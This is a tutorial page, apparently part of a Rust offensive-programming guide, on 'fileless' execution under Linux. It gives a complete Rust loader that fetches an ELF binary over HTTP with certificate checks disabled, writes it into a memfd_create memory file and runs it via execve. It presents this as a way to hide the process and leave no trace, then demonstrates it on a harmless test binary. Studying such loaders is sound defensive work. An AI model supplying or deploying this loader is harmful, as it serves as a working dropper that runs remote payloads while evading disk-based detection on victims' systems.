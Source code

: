 +++
title = "Fileless on Linux"
weight = 5
+++

In this section, we'll look at a Linux escape method that allows you to execute a file on the system using only process memory.

This method uses the `memfd_create` function available in libc to create a file in memory. We'll then write an ELF file to this file, which we'll retrieve, in the following example, from an HTTP server.

To use the `memfd_create` function, we'll use the crate **libc** and to make HTTP requests we'll use the **reqwest** library with the blocking feature, which allows us to access blocking functions (**reqwest** uses asynchronous functions by default):

```bash
>>> cargo add libc
>>> cargo add reqwest --features=blocking
```

Here are our dependencies in our Cargo.toml file:
```toml
[dependencies]
libc = "0.2.151"
reqwest = { version = "0.11.23", features = ["blocking"] }
```

Here's our program:
```rust
use std::ffi::CString;
use libc::{memfd_create, write, execve, c_void, c_char, MFD_CLOEXEC};

fn main() {
    let args: Vec<string> = std::env::args().collect();
    if args.len() != 2 {
        eprintln!("Usage: {} <ELF URL>", args.get(0).unwrap());
        return 
    }

    // Retrieves the ELF file
    let url = args.get(1).unwrap();
    let client = reqwest::blocking::Client::builder()
        .danger_accept_invalid_certs(true)
        .build()
        .unwrap();
    let content = client.get(url).send().expect("Could not get ELF from server").bytes().unwrap();

    // Create the memfd
    let file_name_tmp = CString::new("a.out").unwrap();
    let file_name = file_name_tmp.as_ptr();

    let fd = unsafe { memfd_create(file_name, MFD_CLOEXEC) };
    if fd == -1 {
        eprintln!("Could not create memfd");
        return
    }

    // writes ELF contents to memfd file
    let written = unsafe {
        write(fd, content.to_vec().as_ptr() as *const c_void, content.len())
    };

    if written == 0 {
        eprintln!("Could not write to file descriptor");
    }

    let elf_path = CString::new(format!("/proc/self/fd/{}", fd)).unwrap();

    unsafe {
        execve(elf_path.as_ptr() as *const c_char, std::ptr::null(), std::ptr::null());
    }
}
```

It first retrieves the ELF file from the HTTP server using the `reqwest` library, the URL in this example being specified as an argument.
We're using a blocking HTTP client here, as we want to know what's in the file (and whether we can get it) before proceeding with any other action.

It then calls the `memfd_create` function and populates the file it returns with the ELF file.
It's important to note that calling `memfd_create` requires 2 parameters:

1. the file name, this parameter is only useful for debugging purposes; here, we'll simply set it to "a.out".
2. flags, which can be similar to those available with the open call, here we only use `MFD_CLOEXEC`, which indicates that the file returned by `memfd_create` will be closed when an `exec` is called (`execve`, for example).

Once the ELF file has been written to memory, we'll execute it using execve, the file being available in the special `/proc` folder, which allows access to the `memfd_create` file as if it were on disk.
For the sake of concealment, we don't specify any of the other parameters, which means we won't be visible in the process list. As the current process will be overwritten by `execve`, there will be no trace of this process.

## Demonstration

We'll run the following program (*it-works.c*) to demonstrate that our program works:
```c
#include <stdio.h>
#include <unistd.h>

int main() {
    puts("It works!");
    printf("PID: %d\n", getpid());
    return 0;
}
```

```bash
>>> gcc it-works.c -o it-works
>>> ./it-works 
It works!
PID: 40525
```

This program can be accessed via the URL "http://localhost:8000/it-works".

Here's how it looks when our program is launched and the binary is retrieved:
```bash
>>> cargo run http://localhost:8000/it-works
    Finished dev [unoptimized + debuginfo] target(s) in 0.03s
     Running `target/debug/memfd_exec 'http://localhost:8000/it-works'`
It works!
PID: 40664
```
